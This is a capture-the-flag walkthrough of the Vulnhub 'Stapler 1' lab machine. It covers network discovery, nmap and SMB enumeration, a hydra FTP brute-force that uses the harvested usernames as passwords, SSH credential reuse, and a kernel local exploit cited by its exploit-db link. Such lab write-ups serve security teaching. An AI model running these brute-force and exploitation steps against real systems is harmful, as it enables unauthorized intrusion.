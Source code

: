 ```yaml
---
layout: post
title: Stapler 1
date: 2019-05-14
author: th3-3inst3in
comments: true
tags: [ctf,vulnhub]
---
```


##Stapler 1 vulnhub

After configuring the Stapler VM first step is to find out its IP.We simply do that by running net discover 

```bash
root@kali$: netdisover -r 192.168.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                          
                                                                                                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.2.1     00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                                                         
 192.168.2.2     00:50:56:ed:3a:6d      1      60  VMware, Inc.                                                                                                                         
 192.168.2.7     00:0c:29:03:c5:77      1      60  VMware, Inc.                                                                                                                         
 192.168.2.254   00:50:56:e6:7a:fe      1      60  VMware, Inc.                                                                                                                         
```

So we have our target ip **192.168.2.7**

Run dirsearch and nmap on it and meanwhile browse the site to check if you find anything interesting on the web interface.
Unfortunately there wasn't anything interesting found while browsing the site just one error page . 

Dirsearch also didn't yeild any thing worth checking.

#### Nmap results

```bash
 nmap -sV 192.168.2.7                                                                                                                                                 [20/20]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-14 06:14 EDT                                                                                                                          
Nmap scan report for 192.168.2.7                                                                                                                                                         
Host is up (0.00032s latency).                                                                                                                                                           
Not shown: 992 filtered ports                                                                                                                                                            
PORT     STATE  SERVICE     VERSION                                                                                                                                                      
20/tcp   closed ftp-data                                                                                                                                                                 
21/tcp   open   ftp         vsftpd 2.0.8 or later                                                                                                                                        
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                                                                          
53/tcp   open   domain      dnsmasq 2.75                                                                                                                                                 
80/tcp   open   http        PHP cli server 5.5 or later                                                                                                                                  
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                  
666/tcp  open   doom?                                                                                                                                                                    
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1  

```

Lets start enumerating.

First I checked ftp anonymous login.

```bash

root@kali:~# ftp 192.168.2.7
Connected to 192.168.2.7.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.2.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00 secs (577.3049 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat note 
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
root@kali:~# 

```

Even though the anonymous login was enable we couldn't find anything interesting except 2 names which could possibiliy be used later.

The next thing that strikes me is the netbios service lets enumerate that.For beginners use [this resource](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/).


I am going to use _smbclient_ . For the password I just pressed enter i.e a  Null login.

```bash
root@kali:~# smbclient -L 192.168.2.7
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            RED
root@kali:~# 

```

After going though all the files I only found one wordpress directory but I didn't see any wordpress running on the web server , I probably might have missed it ( I made a mental note to go back and check it) . The second reason for ignoring the wordpress directory is that there was no config file in it.

Next I ran enum4linux

```bash

..[snip]..
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

```
These are list of usernames that were enumerated I thought to use this to bruteforce login creds for ftp.

_a little cut magic_

```bash

root@kali:/tmp# cat users.txt | cut -d'\' -f2 | cut -d' ' -f 1
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Running _hydra_

```bash
hydra -U users.txt -P users.txt -t 5 192.168.2.7 ftp

```

![hydra result]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/hydra.png)

Loging in with those creds in to the ftp I land in the home directory of the user and upon listing the files of the user I saw that there were too many files going though all of them would require alot of tile , this made me think that I am on the wrong path most likely I still went ahead and copied the name of the files and did some quick greping on it to find something like ssh or password or similar but no seed. 

After a long pause I tried the same credentials found for ftp on ssh and voila ! (sometimes thats just how ctfs are)

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/ssh.png)

I opted for the shortest path to get root 


```bash
$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

After searching Local explotis for the specific linux kernal and trying alot of them ( almost gave up on trying to find more exploits ) I finally came accross the following exploit.

_https://www.exploit-db.com/exploits/39772_

Ran the exploit and voila!!

![Root Shel]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/root-shell.png)
